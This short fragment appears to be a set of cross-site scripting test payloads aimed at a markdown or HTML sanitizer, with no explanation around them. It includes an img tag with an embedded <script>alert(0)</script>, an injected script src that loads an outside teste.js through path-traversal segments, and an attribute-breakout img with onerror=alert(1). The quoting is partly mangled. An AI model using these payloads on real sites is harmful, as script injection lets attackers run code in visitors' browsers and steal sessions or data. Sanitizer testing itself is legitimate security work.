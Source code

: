![](../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js?w=10)

<img src="?w=<script>alert(0);</script>" value=”"<script src='../../../../../../../img/onload/../../r89shi/r89shi.github.io/blob/master/teste.js'>;"” width="alert(1)">

<div><img title="</div><img src onerror=alert(1)>?document.alert(1);"></div>
